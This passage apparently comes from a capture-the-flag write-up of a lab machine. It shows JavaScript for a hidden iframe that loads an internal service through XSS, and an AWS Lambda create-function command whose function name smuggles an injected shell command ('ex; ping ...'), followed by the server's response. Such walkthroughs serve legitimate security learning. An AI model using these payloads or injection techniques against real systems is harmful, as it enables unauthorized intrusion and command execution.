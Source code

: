 #### IFrame

[This post](https://stackoverflow.com/questions/19328143/xmlhttprequest-to-fetch-dom-with-dynamic-content) on StackOverflow asks about how to use an `XMLHttpRequest` to fetch the DOM based on dynamic content. I’ll use that to craft a payload that will load the page into an iframe, and wait for it to load.

```

var iframe = document.createElement('iframe');    
iframe.src = 'http://127.0.0.1:8080';    
iframe.onload = function() {    
  setTimeout(function() {    
    iframe.parentNode.removeChild(iframe);    
    }, 5000);    
};    
iframe.sandbox = 'allow-scripts';    
iframe.style.height = '1px';    
iframe.style.width = '1px';    
iframe.style.position = 'fixed';    
iframe.style.top = '-9px';    
iframe.style.left = '-9px';

document.body.appendChild(iframe);    

```

I’ll send an XSS to fetch that, and submit a new lambda function:

```

oxdf@hacky$ aws lambda create-function --function-name 'ex; ping -c 1 10.10.14.6' --zip-file fileb://index.zip --role arn:aws:iam::123456789012:role/lambda-role --endpoint-url http://s3-testing.stacked.htb --handler index.handler --runtime nodejs12.x
{
    "FunctionName": "ex; ping -c 1 10.10.14.6",
    "FunctionArn": "arn:aws:lambda:us-east-1:000000000000:function:ex; ping -c 1 10.10.14.6",
    "Runtime": "nodejs12.x",
    "Role": "arn:aws:iam::123456789012:role/lambda-role",
    "Handler": "index.handler",
    "CodeSize": 291,
    "Description": "",
    "Timeout": 3,
    "LastModified": "2021-08-25T19:04:26.602+0000",
    "CodeSha256": "RflcSNGUgqyNEvEtX4iMOtjiR8yEmBLyRFZIk3h+BDE=",
    "Version": "$LATEST",
    "VpcConfig": {},
    "TracingConfig": {
        "Mode": "PassThrough"
    },
    "RevisionId": "2e71059f-9d2f-4679-a2b6-f0d4469a5147",
    "State": "Active",
    "LastUpdateStatus": "Successful",
    "PackageType": "Zip"
}

```
